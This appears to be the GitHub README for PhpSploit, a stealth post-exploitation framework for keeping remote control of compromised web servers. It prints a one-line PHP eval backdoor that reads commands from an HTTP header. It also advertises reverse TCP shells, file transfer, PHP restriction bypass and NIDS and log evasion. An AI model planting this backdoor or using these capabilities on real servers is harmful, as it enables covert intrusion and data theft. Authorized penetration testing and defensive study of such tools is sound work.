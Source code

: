 ### PhpSploit: _Furtive post-exploitation framework_

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

[![travis build](https://travis-ci.org/nil0x42/phpsploit.svg?branch=master)](https://travis-ci.org/nil0x42/phpsploit)
[![codacy code quality](https://api.codacy.com/project/badge/Grade/b998fe23c25f40a78c6c35c722bb9fa0)](https://app.codacy.com/app/nil0x42/phpsploit?utm_source=github.com&utm_medium=referral&utm_content=nil0x42/phpsploit&utm_campaign=Badge_Grade_Dashboard)
[![lgtm alerts](https://img.shields.io/lgtm/alerts/g/nil0x42/phpsploit.svg?logo=lgtm&logoWidth=18)](https://lgtm.com/projects/g/nil0x42/phpsploit/alerts/)
[![codecov coverage](https://codecov.io/gh/nil0x42/phpsploit/branch/master/graph/badge.svg)](https://codecov.io/gh/nil0x42/phpsploit)
[![codeclimate maintainability](https://api.codeclimate.com/v1/badges/6986200c1729b4a70a40/maintainability)](https://codeclimate.com/github/nil0x42/phpsploit/maintainability)
[![license](https://img.shields.io/github/license/nil0x42/phpsploit.svg)](https://github.com/nil0x42/phpsploit/blob/master/LICENSE)
[![requires.io requirements](https://requires.io/github/nil0x42/phpsploit/requirements.svg?branch=master)](https://requires.io/github/nil0x42/phpsploit/requirements/?branch=master)
[![pyup.io requirements](https://pyup.io/repos/github/nil0x42/phpsploit/python-3-shield.svg)](https://pyup.io/repos/github/nil0x42/phpsploit/)
[![sync.io vulnerabilities](https://snyk.io/test/github/nil0x42/phpsploit/badge.svg)](https://snyk.io/test/github/nil0x42/phpsploit)


![phpsploit demo](data/img/phpsploit-demo.png)

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate post-exploitation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any command or option (type `help`)
    -   _Cross-platform_ on both the client and the server.
    -   Powerful interface with completion and multi-command support
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD Like
-   Mac OS X
-   Windows NT

## Contributors

Thanks goes to these people ([emoji key](https://github.com/all-contributors/all-contributors#emoji-key)):

<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore -->
| [<img src="https://avatars1.githubusercontent.com/u/3504393?v=4" width="100px;" alt="nil0x42"/><br /><sub><b>nil0x42</b></sub>](https://exdemia.com)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=nil0x42 "Code") [🚇](#infra-nil0x42 "Infrastructure (Hosting, Build-Tools, etc)") [🔌](#plugin-nil0x42 "Plugin/utility libraries") [⚠️](https://github.com/nil0x42/phpsploit/commits?author=nil0x42 "Tests") | [<img src="https://avatars1.githubusercontent.com/u/20907184?v=4" width="100px;" alt="shiney-wh"/><br /><sub><b>shiney-wh</b></sub>](https://github.com/shiney-wh)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=shiney-wh "Code") [🔌](#plugin-shiney-wh "Plugin/utility libraries") | [<img src="https://avatars3.githubusercontent.com/u/1619783?v=4" width="100px;" alt="Wannes Rombouts"/><br /><sub><b>Wannes Rombouts</b></sub>](http://wapiflapi.github.io)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=wapiflapi "Code") [🚧](#maintenance-wapiflapi "Maintenance") | [<img src="https://avatars1.githubusercontent.com/u/6031769?v=4" width="100px;" alt="Amine Ben Asker"/><br /><sub><b>Amine Ben Asker</b></sub>](http://yurilz.com)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=yurilaaziz "Code") [🚧](#maintenance-yurilaaziz "Maintenance") | [<img src="https://avatars1.githubusercontent.com/u/5619153?v=4" width="100px;" alt="jose nazario"/><br /><sub><b>jose nazario</b></sub>](http://twitter.com/jnazario)<br />[📖](https://github.com/nil0x42/phpsploit/commits?author=paralax "Documentation") [🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Aparalax "Bug reports") | [<img src="https://avatars3.githubusercontent.com/u/156915?v=4" width="100px;" alt="Sujit Ghosal"/><br /><sub><b>Sujit Ghosal</b></sub>](http://wikisecure.net)<br />[📝](#blog-sujit "Blogposts") | [<img src="https://avatars3.githubusercontent.com/u/3418725?v=4" width="100px;" alt="Zerdoumi"/><br /><sub><b>Zerdoumi</b></sub>](https://github.com/sohelzerdoumi)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Asohelzerdoumi "Bug reports") |
| :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| [<img src="https://avatars3.githubusercontent.com/u/5489330?v=4" width="100px;" alt="tristandostaler"/><br /><sub><b>tristandostaler</b></sub>](https://github.com/tristandostaler)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Atristandostaler "Bug reports") | [<img src="https://avatars3.githubusercontent.com/u/16543074?v=4" width="100px;" alt="Rohan Tarai"/><br /><sub><b>Rohan Tarai</b></sub>](https://github.com/rohantarai)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Arohantarai "Bug reports") |
<!-- ALL-CONTRIBUTORS-LIST:END -->

_This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome!_
